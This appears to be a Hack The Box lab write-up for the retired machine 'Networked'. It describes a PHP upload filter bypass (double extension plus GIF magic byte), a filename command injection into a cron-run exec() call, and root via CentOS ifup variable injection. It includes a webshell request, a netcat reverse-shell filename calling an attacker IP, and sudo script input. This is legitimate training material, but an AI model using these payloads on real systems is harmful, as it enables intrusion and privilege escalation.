







### Info:
- Name: **Networked**
- OS: **Linux**
- Type: **Unauthenticated**
- Difficulty: **Easy**
- Status: **Retired**

### Content:
- [**`testing.md`**](https://github.com/cac3r/htb_machines/blob/main/networked/testing.md)                - Raw notes / working log
- [**`report.pdf`**](https://github.com/cac3r/htb_machines/blob/main/networked/report.pdf)                - Professional report
- [**`attack_chain.png`**](https://github.com/cac3r/htb_machines/blob/main/networked/attack_chain.png)   - Attack chain diagram
- `screenshots/`           - Supporting screenshots

---
---
### Brief:
### Initial access: File upload bypassing type/MIME whitelist filters
Starting the test against the target system unauthenticated. After network/host reconnaissance, enumerating the exposed HTTP service at port 80, an Apache and PHP website, discover a `/backup` endpoint by fuzzing. This endpoint allows to download a backup.tar with the application source code, which discloses new endpoints like `/upload.php`. This endpoint is a function to upload files to the `/uploads` directory which contains the images that are displayed at `/photos.php`. Reading the upload function logic/code, identify filters of size and whitelisting of common media file extensions and content (`.png`,`.jpg`,`.gif`,`.jpeg`). The filters out any filename that does not contain any of that file extensions and also reads the magic byte in the file to determine whether its contents/MIME is the expected, filtering out any that does not match the file types mentioned. In order to upload a malicious PHP file, this filters are bypassed by using double extensions for the filename filter (`shell.php.gif`) and adding the magic byte to the file first line, using GIF (`GIF89a`). The file is uploaded and requested at `/uploads` specifying the cmd parameter set, enabling RCE as `apache`. After running a reverse shell, a shell as `apache`.
### Pivot -> `guly`: OS command injection in vulnerable script `check_attack.php`
Navigating the target system find user `guly` (`/home/guly`). In its home directory find `check_attack.php` and `crontab.guly`. This last is a setting to run `check_attack.php` periodically. The script is owned by `guly`. The PHP script function is to check for images in `/uploads` that mismatches the pattern automatically set on upload (`10_10_10_10.*`), if the filename does not match, it triggers system commands under a execution sink `exec()` running system commands to remove this files, appending the filename as a variable in this sink. As the attacker can upload files, the filename is controlled input. This is abused by naming a file in order to execute arbitrary commands. As a filename cant contain `/`, make use of the target system present netcat binary `nc` for it. Using separator `;` and `nc` `-c` argument to execute the reverse shell, obtaining a shell as `guly`. (user.txt)
### Privilege Escalation -> `root`: Privileged script using old, known vulnerable `ifcfg/ifup`
As `guly`, enumerate sudo privileges and find `guly` is allowed to run `/usr/local/sbin/changename.sh` as root without a password required. The target system being CentOS (Red Hat family), the script makes use of `ifcfg/ifup` to configure/edit a network interface `guly0` and turn it up. To do this, the script prompts for user to input the value of different variables, write them to the configuration file `/etc/sysconfig/network-scripts/ifcfg-guly` and uses `ifup` to set the `guly0` interface up. There is a known issue in how `ifup` reads and sets the configuration to turn an interface up. Is possible to execute arbitrary commands by adding a space in any variable. The commands after the space will execute in the system. Running the script with sudo, input the variables and in any of them add ` bash` to obtain a shell as root. (root.txt)

---
---
### Techniques:
- File upload PHP with file extension whitelist (`.jpg, .png, .gif`...) filter bypass - Magic byte
- OS command injection in script with user controlled variable (filename) in `exec()` sink
- CentOS/RHEL network scripts (`ifup`/`ifcfg`) abuse - Command execution 

---
---
### Lesson:
Lesson #1: Is important to check who owns a file and what permissions you have over it.  In this box if the `apache` user would have had permissions to write the `lib.php` file included and ran in the script as `guly` (or other user, root, ...), it would be possible to write malicious code editing that lib.php file directly.
A writable file included by privileged process.

`ls -la` on intersting files/directories.

---
### File upload PHP with file extension whitelist (`.jpg, .png, .gif`...) filter bypass - Magic byte

PHP backend. File upload functionality. Reading source code (`upload.php`) identify filters. Maximum file size filter and file type whitelist by naming and content/MIME, only accepting `.jpg, .png, .gif`, `.jpeg`. 



Using double extension to bypass the filename filter and magic byte to bypass the content/MIME filter.

filename
```
shell.php.gif
```

GIF magic byte
```
GIF89a
```



Without magic byte



Browsing `photos.php`



Ctrl + U



Click on the uploaded malicious PHP file (the code changes file name to client IP)
Enter the cmd parameter and command.

```
view-source:http://10.129.65.225/uploads/10_10_14_204.php.gif?cmd=id
```



---
### OS command injection in script with user controlled variable in `exec()` sink

Script used to check for suspicious files in the uploads directory is vulnerable to command injection. The user controlled filename is passed as variable directly to a system execution sink (`exec()`). As a filename cant contain characters like `/`, use the present `nc` binary in the system to execute a reverse shell without using that character.

.png)

NetCat cmd execution argument
```
...
-c, --sh-exec <command>    Executes the given command via /bin/sh
...
```

Change dir to the directory where the files are being inspected
```
cd /var/www/html/uploads
```

Filename
```
';nc -c bash 10.10.14.204 9001'
```

---
### CentOS/RHEL network scripts (`ifup`/`ifcfg`) abuse - Command execution 

A custom script to create and manage configuration for network interfaces uses `ifup`/`ifcfg`. Sets device name to `guly0`. Sets a regex. Prompts for 4 variables and reads user input (validated to match the regex) to write it over a ifcfg configuration file. 

.png)

The `ifup`/`ifcfg` have known behavior that leads to command execution. Using a space and writing a command in the variable will execute that command.

Since some variables are user controlled with the script, and the controlled account has permission to run the script as root, can run `bash` after a space ` ` and obtain a shell as root.

```
sudo /usr/local/sbin/changename.sh
```

Input `x bash` in any of the variables.



---
#### Takeaway
- Reading file upload function PHP code to understand what filters are applied
- Bypassing filename/extension and content type filters to upload malicious PHP file:
	- Filename/Extension: Double extension `file.php.gif` (Apache configured to handle double extensions)
	- Content type: Adding Magic byte in file content (GIF -> `GIF89a`)
- OS command injection with filename as injection point. Script using client controlled files filenames as variable appended in system execution sink (`exec()`)
- CentOS/RHEL `ifcfg`/`ifup` issue leading to arbitrary command execution (privileged script reads user input to set configuration file variables using `ifcfg`/`ifup`)
